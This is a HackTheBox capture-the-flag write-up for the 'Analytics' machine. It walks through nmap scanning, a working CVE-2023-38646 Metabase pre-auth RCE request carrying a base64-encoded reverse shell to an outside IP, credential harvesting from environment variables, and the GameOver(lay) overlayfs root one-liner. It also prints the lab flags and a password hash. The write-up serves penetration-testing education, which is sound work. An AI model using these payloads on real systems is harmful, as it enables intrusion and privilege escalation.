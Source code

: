 # Analytics - HackTheBox - Writeup
Linux, 20 Base Points, Easy

![info.JPG](images/info.JPG)

## Machine

![‏‏Analytics.JPG](images/Analytics.JPG)
 
## TL;DR

To solve this machine, we start by using `nmap` to enumerate open services and find ports `22`, and `3000`.

***User***: Identified the subdomain `data.analytics.htb` hosting Metabase. Exploited `CVE-2023-38646` to acquire a reverse shell as the `metabase` user. Discovered the password of the `metalytics` user in the `env`.

***Root***: Leveraged the OS version to execute GameOver(lay) Ubuntu Privilege Escalation, resulting in obtaining a `root` shell.

![pwn.JPG](images/pwn.JPG)


## Analytics Solution

### User

Let's begin by using `nmap` to scan the target machine:

```console
┌─[evyatar9@parrot]─[/hackthebox/Analytics]
└──╼ $ nmap -sV -sC -oA nmap/Analytics 10.10.11.233
# Nmap 7.93 scan initiated Sat Jan  6 23:15:29 2024 as: nmap -sV -sC -oA nmap/Analytics 10.10.11.233
Nmap scan report for 10.10.11.233
Host is up (0.11s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
|_  256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Observing http://analytical.htb/, we see that the following web page is hosted:

![port80.JPG](images/port80.JPG)

Upon clicking the login page, it redirects us to http://data.analytical.htb:

![data.JPG](images/data.JPG)

As observed, it's Metabase—a open-source business intelligence tool enabling the creation of charts and dashboards using data from various databases and sources.

We can utilize [CVE-2023-38646](https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/) for obtaining a Pre-Authentication Remote Code Execution (RCE).

According to the link, we need to retrieve the setup token from http://data.analytical.htb/api/session/properties which is `"setup-token":"249fa03d-fd94-4d5b-b94f-b4ebf3df681f"`.

Next, we need to send the following POST request:
```http
POST /api/setup/validate HTTP/1.1
Host: data.analytical.htb
Content-Type: application/json
Content-Length: 812

{
    "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjU3LzQyNDIgMD4mMQo=}|{base64,-d}|{bash,-i}')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```

Where the base64 `YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjU3LzQyNDIgMD4mMQo=` decodes to `sh -i >&/dev/tcp/10.10.14.57/4242 0>&1`.

Executing this command grants us a reverse shell as the `metabase` user:
```console
┌─[evyatar9@parrot]─[/hackthebox/Analytics]
└──╼ $ nc -lvp 4242
listening on [any] 4242 ...
connect to [10.10.14.57] from analytical.htb [10.10.11.233] 51534
sh: can't access tty; job control turned off
/ $ whoami
metabase
```

Executing the command `env` reveals the following output:
```console
/ $ env
MB_LDAP_BIND_DN=
LANGUAGE=en_US:en
USER=metabase
HOSTNAME=b0d9aac8b711
FC_LANG=en-US
SHLVL=4
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
HOME=/home/metabase
OLDPWD=/dev
MB_EMAIL_SMTP_PASSWORD=
LC_CTYPE=en_US.UTF-8
JAVA_VERSION=jdk-11.0.19+7
LOGNAME=metabase
_=ls
MB_DB_CONNECTION_URI=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_PASS=
MB_JETTY_HOST=0.0.0.0
META_PASS=An4lytics_ds20223#
LANG=en_US.UTF-8
MB_LDAP_PASSWORD=
SHELL=/bin/sh
MB_EMAIL_SMTP_USERNAME=
MB_DB_USER=
META_USER=metalytics
LC_ALL=en_US.UTF-8
JAVA_HOME=/opt/java/openjdk
PWD=/
MB_DB_FILE=//metabase.db/metabase.db
```

The user `META_USER=metalytics` and the password `META_PASS=An4lytics_ds20223#` are visible in the output of the env command.

Utilizing these credentials, we can establish an SSH connection:
```console
┌─[evyatar9@parrot]─[/hackthebox/Analytics]
└──╼ $ ssh metalytics@analytical.htb
metalytics@analytical.htb's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 6.2.0-25-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Jan  8 12:58:13 PM UTC 2024

  System load:              0.11865234375
  Usage of /:               93.1% of 7.78GB
  Memory usage:             26%
  Swap usage:               0%
  Processes:                152
  Users logged in:          0
  IPv4 address for docker0: 172.17.0.1
  IPv4 address for eth0:    10.10.11.233
  IPv6 address for eth0:    dead:beef::250:56ff:feb9:f4fc

  => / is using 93.1% of 7.78GB

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Tue Oct  3 09:14:35 2023 from 10.10.14.41
metalytics@analytics:~$ cat user.txt
33337145f65c908487888e1efe7eb276
```

And we get the user flag `33337145f65c908487888e1efe7eb276`.

### Root

By running `cat /etc/os-release`:
```console
metalytics@analytics:/tmp$ cat /etc/os-release 
PRETTY_NAME="Ubuntu 22.04.3 LTS"
NAME="Ubuntu"
VERSION_ID="22.04"
VERSION="22.04.3 LTS (Jammy Jellyfish)"
VERSION_CODENAME=jammy
ID=ubuntu
ID_LIKE=debian
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
UBUNTU_CODENAME=jammy
```

Observing that the system is running on `Ubuntu 22.04.3`, we can exploit the local privilege escalation vulnerability described in https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629 where Ubuntu Kernels overlayfs ovl_copy_up_meta_inode_data skips permission checks when calling ovl_do_setxattr on Ubuntu kernels.

To exploit this, execute the following command:
```console
metalytics@analytics:/tmp$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
metalytics@analytics:/tmp# ls -ltra /var/tmp/bash 
-rwsr-xr-x 1 root metalytics 1396520 Jan  8 13:30 /var/tmp/bash
```

We can see that we have bash SUID binary, Run it:
```console
root@analytics:/tmp# /var/tmp/bash -p
root@analytics:/tmp# whoami
root
root@analytics:/tmp# cat /root/root.txt 
87fb1b0ec4b4f2d1d3005d2fb307655c
```

And we get the root flag `87fb1b0ec4b4f2d1d3005d2fb307655c`.

PDF password 
```
$y$j9T$aVUkVU8LWFNEuXdwrOIJH.$jF8hy0vMzBJTvu/.HkzP0E4ZObo1I.frOPRVj2ktqM2
```